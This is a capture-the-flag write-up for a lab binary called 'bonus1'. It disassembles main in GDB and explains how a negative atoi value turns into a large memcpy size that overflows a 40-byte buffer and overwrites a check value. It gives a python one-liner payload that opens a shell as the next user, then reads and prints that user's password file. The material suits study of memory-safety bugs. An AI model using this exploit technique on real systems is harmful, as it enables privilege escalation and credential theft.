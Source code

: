 # Bonus 1

First step - testing the program
```
$ ./bonus1
Segmentation fault (core dumped)
$ ./bonus1 Hello
$ ./bonus1 Hello World
```
The program segfault without parameters

Start in GDB
```
(gdb)$ disas main
Dump of assembler code for function main:
   0x08048424 <+0>:		push   ebp
   0x08048425 <+1>:		mov    ebp,esp
   0x08048427 <+3>:		and    esp,0xfffffff0
   0x0804842a <+6>:		sub    esp,0x40
   0x0804842d <+9>:		mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:	add    eax,0x4
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:	add    eax,0x8
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    eax,0x0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
```
---

So, we have an atoi for `av[1]`. This result have to <= 9 for continue in the program.
A memcpy is done from `av[2]` to buffer with 40 bytes len and our av[1] for size_t param.
And for finish our integer have to be equal this time to *0x574f4c46* for call `execl("/bin/sh", "sh", 0)`

Like our integer and buffer are next to each other in the stack, we should exploit `memcpy` for overwrite buffer and give the correct final value and run `execl`


Thank `size_t` in memcpy, is an unsigned we can overflow with negative value.
We need to size_t be equal 44 bytes (40 for fill buffer, 4 for overwrite integer).

` 44 size_t == -2147483637 int`

Write exploit :

`python -c'print("-2147483637 "+ "A"*40 + "\x46\x4c\x4f\x57")' > payload`

Run :
```
$ ./bonus1 `cat payload `
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
